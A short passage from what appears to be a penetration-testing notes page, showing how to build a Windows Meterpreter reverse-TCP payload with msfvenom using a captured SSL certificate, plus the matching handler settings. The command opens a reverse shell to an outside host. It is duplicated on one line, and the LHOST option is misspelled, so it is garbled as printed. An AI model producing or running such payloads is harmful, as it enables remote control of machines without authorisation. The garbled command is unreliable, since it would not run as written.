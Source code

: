 ![](<../.gitbook/assets/image (296) (1) (1) (1) (1) (1).png>)

we have the cert now create a payload using the cert:

```
msfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exemsfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exe
```

in handler setting:

```
set handlersslcert [file.pem]
set stagerverifysslcert true
run
```

![](<../.gitbook/assets/image (276) (1) (1) (1).png>)
